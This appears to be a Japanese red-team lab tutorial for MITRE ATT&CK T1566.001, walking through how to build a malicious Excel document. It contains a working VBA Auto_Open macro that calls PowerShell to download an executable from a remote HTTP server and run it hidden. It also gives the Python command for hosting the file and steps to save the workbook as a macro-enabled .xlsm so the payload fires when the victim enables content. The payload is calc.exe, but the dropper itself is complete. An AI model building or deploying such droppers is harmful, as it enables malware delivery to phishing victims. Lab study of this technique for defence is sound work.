





# T1566.001 - Phishing Spearphishing Attachment

Phishing Spearphishing Attachment
-------------

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1566.001  |
|  Tactic  |  Initial Access |
|  Techniques  |  Phishing  |
|  Sub-techniques  |  Spearphishing Attachment |

MS Office VBA Macro によるリモートファイルの実行について記載します。
リモート端末にホストされた悪意のあるファイルに見立てた calc.exe ファイルを取得し実行するマクロを実装します。

VBA マクロを操作するために、リボンの設定から「開発」にチェックを入れます。



追加された開発タブからVisual Basic を選択し、VBA プロジェクトから標準モジュールを挿入します。



ここではリモート端末にホストされた悪意のあるファイル相当の calc.exe ファイルを取得し実行するマクロを実装します。

```
Sub Auto_Open()

Set ws = CreateObject("WScript.Shell")

ws.Run "cmd.exe /c powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.254:8080/calc.exe ','%USERPROFILE%\Desktop\malicious.exe'); %USERPROFILE%\Desktop\malicious.exe", 0, True

End Sub
```

今回のケースではリモート端末として Kali Linux を用意し、別途 Windows から取得した calc.exe を配置しています。
簡単のために Simple HTTP Server を用いて GET の待ち受けを行います。



```
$ python2 -m SimpleHTTPServer 8080
```

VBA マクロが正しく動作するかの確認は、緑の実行ボタンから確認することができます。



リモート端末側では calc.exe が取得される様子が確認できます。



最後に、MS Excel をマクロが動作する xlsm 形式で保存します。

ファイルをオープンすると「コンテンツの有効化」が求められ、クリックすることでcalc.exe ファイルの取得と実行が行われます。


